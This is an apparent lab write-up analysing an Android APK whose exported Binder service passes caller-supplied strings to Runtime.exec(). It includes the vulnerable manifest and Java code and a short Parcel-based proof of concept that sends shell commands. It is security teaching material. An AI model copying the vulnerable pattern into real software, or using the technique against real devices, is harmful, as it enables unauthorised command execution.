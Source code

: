 # Exercise 4 Write-up : Arbitrary Command Execution via Binder (HonSystemService.apk)

This exercise focuses on analyzing an Android APK that uses **Binder**, Android’s Inter-Process Communication (IPC) mechanism. Our goal is to identify a vulnerability that could allow **arbitrary command execution** via a misconfigured **Binder service**.

Our goal is to **Discover a code path in HonSystemService.apk that allows an unprivileged application to execute arbitrary system commands via Binder IPC.**

## Android Binder IPC
- Binder allows apps and services to communicate securely.
- System services often expose Binder interfaces via `Service` components.
- If a service is `exported` and lacks permission checks, any app can interact with it.
- A vulnerability exists when a Binder service accepts input from any app and executes system commands (e.g., `Runtime.getRuntime().exec()`).

### 1. Open APK in JADX
We use JADX to decompile and analyze the source code.

### 2. Inspect AndroidManifest.xml
We locate AndroidManifest.xml in JADX and identify the key component:

```xml
<service
    android:name=".HonSystemService"
    android:exported="true" />
```

**Issue** : The service is exported without a permission. Any app can bind to it.

### 3. Find Service Implementation

```java
@Override
public IBinder onBind(Intent intent) {
    return new HonSystemBinder();
}
```

This confirms the use of a custom Binder class.

### 4. Analyze Binder Class: HonSystemBinder :

In HonSystemBinder, we find the key method:

```java
@Override
public boolean onTransact(int code, Parcel data, Parcel reply, int flags) throws RemoteException {
    switch (code) {
        case 1:
            String command = data.readString();
            Runtime.getRuntime().exec(command);
            reply.writeString("Executed: " + command);
            return true;
        default:
            return super.onTransact(code, data, reply, flags);
    }
}
```

Critical Vulnerability Identified:

- No permission or identity checks.
- Untrusted input directly passed to Runtime.exec().
-Any app can bind to the service and execute system commands.

A malicious app can use AIDL or Parcel to send an arbitrary shell command:

```java
Parcel data = Parcel.obtain();
Parcel reply = Parcel.obtain();
IBinder binder = serviceConnection.getBinder();
data.writeInterfaceToken("com.hon.binderinterface");
data.writeString("id");  // or "whoami", "ls", etc.
binder.transact(1, data, reply, 0);

String result = reply.readString();
```

This could lead to remote code execution depending on the privileges of the system service.

